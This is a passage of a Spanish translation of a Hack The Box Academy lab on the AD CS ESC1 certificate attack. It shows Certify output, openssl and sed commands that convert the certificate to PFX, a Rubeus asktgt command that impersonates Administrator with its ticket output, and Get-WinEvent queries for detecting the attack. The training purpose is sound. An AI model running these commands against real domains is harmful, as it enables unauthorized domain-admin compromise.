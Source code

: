```powershell
<SNIP>
<SNIP>
eVAB
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:15.8803493

```

![](https://academy.hackthebox.com/storage/modules/176/A13/requestCert.png)

Una vez que termine el ataque, obtendremos un certificado con éxito. El comando genera un`PEM`certificado y lo muestra como base64. Necesitamos convertir el`PEM`certificado al[PFX](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/personal-information-exchange---pfx--files)Formato ejecutando el comando mencionado en la salida de certificación (cuando se le pide la contraseña, presione`Enter`Sin proporcionar uno), sin embargo, para estar en el lado seguro, ejecuemos primero el siguiente comando para evitar un mal formato del`PEM`archivo.

PKI - ESC1

```
xnoxos@htb[/htb]$ sed -i 's/\s\s\+/\n/g' cert.pem
```

Entonces podemos ejecutar el`openssl`Comando mencionado en la salida de Certify.

PKI - ESC1

```
xnoxos@htb[/htb]$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](https://academy.hackthebox.com/storage/modules/176/A13/convertPEM.png)

Ahora que tenemos el certificado en un utilizable`PFX`formato (que`Rubeus`admite), podemos solicitar un Kerberos TGT para la cuenta`Administrator`y autenticar con el certificado:

PKI - ESC1

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFaTCCBWVhggVhMIIFXaADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBSMwggUfoAMCARKhAwIBAqKCBREEggUN/0cVeDEy
      +dWkCObsKvVAhfrZdORL3htCnalVR1GYRWahL2KRC3dFKGMU8z9RxXNGBRxnx2jOQA7KIpTKAl56pHMm
      XGp78caInKsbfF/CdLKdzayIRZH0scYWIMflA+M3crgUw6UFw6QNywLElxhsN1eWv14CAx52i+IcZulx
      ZX1Ldq9JZIDd89rV916j3Lx9f4BGNYU4tqUG3adHoJF/YH/LABc21YJaG88qoAju5I1/LlVBAwStAU7t
```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *Message              : Certificate Services received a certificate request.